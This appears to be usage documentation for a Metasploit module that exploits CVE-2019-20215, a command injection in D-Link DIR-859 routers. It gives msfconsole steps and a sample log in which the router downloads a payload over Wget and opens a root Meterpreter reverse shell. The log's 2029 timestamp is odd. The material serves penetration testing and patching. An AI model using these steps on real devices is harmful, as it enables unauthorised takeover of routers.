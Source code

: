 ## Vulnerable Application

### Introduction

This module exploits CVE-2019–20215, an unauthenticated remote injection of operating system commands.
The vulnerability was found in the ssdpcgi() function, and the payload can be injected through either the UUID
or URN headers of a M-SEARCH UPnP request.

Get a [D-Link router/vulnerable firmware](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147),
or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/http/dlink_dir859_exec_ssdpcgi`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `set TARGET <URN/UUID>`
7. Do: `run`
8. You should get a session as `root`.

## Options

**VECTOR**

This option denotes which header will be used in the request (UUID or URN)
that triggers the vulnerability.

## Scenarios

### D-link DIR-859 Firmware 1.05

```
msf5 exploit(linux/http/dlink_dir859_exec_ssdpcgi) > run 
[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://0.0.0.0:8080/38YWEX2
[*] Local IP: http://192.168.70.28:8080/38YWEX2
[*] Target Payload URN
[*] Client 192.168.0.1 (Wget) requested /38YWEX2
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.1:41057) at 2029-12-31 14:15:22 -0300
[*] Server stopped.
meterpreter > 
```
